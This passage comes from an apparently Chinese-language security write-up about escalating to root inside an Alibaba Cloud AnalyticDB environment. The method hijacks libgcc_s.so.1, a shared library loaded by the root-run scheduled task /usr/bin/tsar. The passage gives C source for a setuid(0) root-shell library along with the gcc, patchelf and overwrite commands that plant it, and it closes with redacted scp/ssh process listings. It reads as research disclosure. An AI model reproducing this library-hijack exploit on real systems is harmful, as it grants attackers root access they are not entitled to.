 1. 使用PatchELF实用程序向库添加依赖项libgcc_s.so.1。这样当它被加载时，我们自己的库也会被加载。  
  
1. 覆盖了原来的libgcc_s.so.1库。  
  
1. 等待/usr/bin/tsar被执行。  
  
我们的策略最终成功了，授予我们 root 访问权限。  
> 这是一个很常见的提权技巧，它利用了计划任务在执行时会加载一些依赖库的特点，如果这些依赖库可以被普通用户修改或者替换，那么就可以植入恶意代码，从而在计算任务运行时以root权限运行。用ldd命令查看程序所依赖的共享列表  
  
  
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void backup()
{
  if (setuid(0) == 0) // 设置用户ID为0
  {
    system("/bin/bash"); // 调用bash命令
  }
  else
  {
    perror("setuid failed");
  }
}
```  
```
gcc -fPIC -c rootshell.c
gcc -shared -o librootshell.so rootshell.o
cp /bin/bash /bin/dash
patchelf --set-interpreter ./librootshell.so dash
cp librootshell.so /u01/adbpg/lib/libgcc_s.so.1
最后，等待/usr/bin/tsar被执行
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/shVkAyu04IGT2ZCibvhfqw1lrYoEoXHjwlrrJ3rXMBVTjIO1AHJXfJGAJfibSia48kB9fic1gwF5OrLN1Bl6w6vKbg/640?wx_fmt=png "")  
  
  
这里完成了第一步，通过计划任务提升至root权限  
  
通过调用阿里云门户中的某些操作（例如启用 SSL 加密），我们观察到 SCP 和 SSH 等多个进程的产生。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/shVkAyu04IGT2ZCibvhfqw1lrYoEoXHjw9ORvMZsrCzp3ibXwicpEnVnNeI7Jh9hIusylsk98FAZ9qkib16cibKq9qw/640?wx_fmt=png "")  
  
启用/禁用 SSL 加密的选项  
```
# Command lines of the spawned processes
su - adbpgadmin -c scp /home/adbpgadmin/xxx_ssl_files/* 
*REDACTED*:/home/adbpgadmin/data/master/seg-1/ 

/usr/bin/ssh -x -oForwardAgent=no -oPermitLocalCommand=no -oClearAllForwardings=yes 
-- *REDACTED* scp -d -t /home/adbpgadmin/data/master/seg-1/
```  
  